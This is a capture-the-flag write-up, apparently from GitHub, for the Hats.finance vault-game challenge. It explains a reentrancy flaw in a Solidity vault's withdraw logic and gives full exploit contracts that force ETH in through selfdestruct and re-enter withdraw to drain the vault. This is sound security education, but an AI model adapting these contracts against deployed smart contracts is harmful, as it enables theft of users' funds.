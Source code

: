 
# Hats.finance CTF #2 writeup

Challenge : https://github.com/hats-finance/vault-game

Type of Attack : Re-entrancy attack
Vulnerability level : Critical, The vault could be drained, rendering the wrapped token worthless. 

# Finding the vulnerability

 1. Since we need to drain the contract of ETH, we will look for vulnerabilities in functions with `payable` extension, specifically functions that sends ETH to users, This left us with two functions, `withdraw()` and `redeem()`, both function execute an internal function called `_withdraw()`.
 2. Looking at the `_withdraw()` function, we didn't see any reentrancy guard, and the code sends eth to users first(Transfer to unknown address) before doing the rebalance of excessETH (Transfer to trusted address). So this is a reentrancy vulnerability.
```js
function  _withdraw(address  caller, address  payable receiver,address  _owner,uint256  amount) internal  virtual{
	if (caller != _owner) {
		_spendAllowance(_owner, caller, amount);
	}
	uint256 excessETH = totalAssets() - totalSupply();

	_burn(_owner, amount);
	Address.sendValue(receiver, amount);
	if (excessETH > 0) {
		Address.sendValue(payable(owner()), excessETH);
	}
	emit  Withdraw(caller, receiver, _owner, amount, amount);
}
```
 3. In the reentrancy contract we will need to trigger a second withdraw, so the excessETH from the first withdraw will be double-counted. Therefore, draining the vault's ETH.

# The Reentrancy contract
```js
contract Reentrancy{
	victim VictimContract;
	address creator;
	constructor(address  target, address  _creator) payable {
		VictimContract = victim(target);
		creator = _creator;
	}
	receive() external  payable {
			VictimContract.withdraw(1  ether, 0x4ce813AE26a83b757572a3463f97C9FB6e51Fa7d, creator);
			//0x4ce813AE..... is just a random non-contract address
	}
}
```
# Executing the attack

 1. First of all, we need to create an imbalance between the amount of Wrapped token and ETH, sadly this contract doesn't have any receive function, which means you can't send ETH to the contract in the normal way. But we still can fund a new contract and call `selfdestruct()`to the vault contract, during `selfdestruct()` all ETH on the contract will be forcefully transferred to the recipient, any address, including contracts, can't reject the ETH sent through `selfdestruct()`.

The Self Destruct contract : 
```js
contract Selfdes{
	constructor(address  target) payable {
		selfdestruct(payable(target));
	}
}
```
Implementation :
```js
function  forceSend(uint  amount) public  returns (address){
	Selfdes temp = (new Selfdes){value:amount}(address(VictimContract));
	return  address(temp);
}
```
 2.   Since we need to exploit through `withdraw()` function, we must deposit some of ETH to the Wrapped Token. In this case we will deposit 2 ETH.
 3.  We need to approve the reentrancy contract to spend and withdraw our wrapped tokens, in this case we will approve 1 Wrapped Token for the attacker.
 4. We need to withdraw our remaining 1 Wrapped Token to trigger the attack.
 5. Finally we capture the flag.

We can bundle all of that process into a single contract

```js
contract Exploit{
	victim targetContract;
	function  forceSend(uint  amount) public  returns (address){
		Selfdes temp = (new Selfdes){value:amount}(address(targetContract));
		return  address(temp);
	}
	constructor(address  target) payable {
		require(msg.value == 3  ether, "Must init contract with 3 ETH");
		targetContract = victim(target);
		Reentrancy attacker = new  Reentrancy(target, address(this));
		forceSend(1  ether);
		targetContract.deposit{value: 2  ether}(2  ether, address(this));
		targetContract.approve(address(attacker), 1  ether);
		targetContract.withdraw(1  ether, address(attacker), address(this));
		targetContract.captureTheFlag(address(this));
	}
}
```

further source code can be found at https://github.com/Firdausfarul/CTF2-Hats

# Running
```shell
npx hardhat node
npx hardhat run --network localhost scripts/deploy.js
```
